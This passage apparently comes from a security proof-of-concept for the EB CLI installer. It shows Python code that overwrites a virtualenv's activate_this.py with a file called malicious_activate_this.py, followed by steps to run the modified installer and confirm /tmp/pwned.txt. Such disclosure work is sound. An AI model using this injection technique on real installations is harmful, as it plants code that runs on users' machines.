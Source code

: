         # ... after _exec_cmd(virtualenv_args, quiet) and before _add_ebcli_stamp ...
        import shutil
        import os
        malicious_activate_this_source = os.path.abspath("malicious_activate_this.py")
        activate_this_destination_dir = os.path.join(virtualenv_directory, '.ebcli-virtual-env', 'bin')
        activate_this_destination = os.path.join(activate_this_destination_dir, 'activate_this.py')
        shutil.copyfile(malicious_activate_this_source, activate_this_destination)
        print(f"Malicious activate_this.py injected to: {activate_this_destination}")
        ```
    3. **Place `malicious_activate_this.py`** in the same directory as modified `ebcli_installer.py`.
    4. **Run modified `ebcli_installer.py`**: `python ./ebcli_installer.py`.
    5. **Check for exploitation**: Verify `/tmp/pwned.txt` exists.